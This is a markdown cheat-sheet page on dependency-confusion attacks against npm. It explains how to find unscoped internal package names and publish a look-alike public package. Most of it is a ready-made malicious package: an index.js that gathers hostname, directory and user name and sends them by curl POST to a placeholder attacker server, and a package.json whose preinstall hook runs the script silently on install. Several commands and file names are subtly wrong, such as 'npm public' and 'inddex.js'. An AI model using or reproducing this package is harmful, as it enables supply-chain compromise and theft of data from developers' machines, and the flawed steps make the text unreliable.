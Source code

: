 ### Dependency Confusion - Node.js

**Info**
- In Node, npm packages are stated in the package.json file
- Will look something like this:
```
"devDependencies" : {
    "my_test_framework": "^3.1.0",
    "another_dev_dependency": "1.0.0 - 1.2.0"
}
```
- The `^` symbol indicates versions equal to or higher than the version listed

**Package Scopes**
- Packages can be unscoped (public packages on npm)
    - Specified by listing the package name alone
- Can also be scoped
    - Belongs to a user/organization
    - Must be preceded by the organizations's name
        - `@org-name/package` or `@username/package`

**Exploitation**
- Find packages that are used without a reserved namespace (unscoped)
  - This could look like `org-name/package` (without the `@`)
- Node will then use the public package over the private one, allowing code execution
- [Synyc](https://github.com/snyk-labs/snync) is a good tool to scan for and recognize these packages
- Then you just have to host the package yourself

**Creating a Malicious package**
- Create `index.js`:
```
const { exec } = require("child_process");
exec("a=$(hostname;pwd;whoami;) && b=$(echo $a | base64) && curl -X POST {attacker-server} -d $b" , (error, data, getter) => {
    if (error){
        console.log("error", error.message);
        return;
    }
    if (getter){
        console.log(data);
        return;
    }
    console.log(data);
});
```
- Create `package.json`:
```
{
    "name":"{vulnerable_package_name}",
    "version":"{relevant_version_or_higher_if_^}",
    "description":"",
    "main":"main.js",
    "scripts":{
        "preinstall":"node inddex.js > /dev/null 2>&1",
        "test":"echo \"Error: no test specified\""
    },
    "author":"asdasfasd.asfasdasfasd",
    "license":"MIT"
}
```
- Then just run `npm public --access=public` and monitor attacker server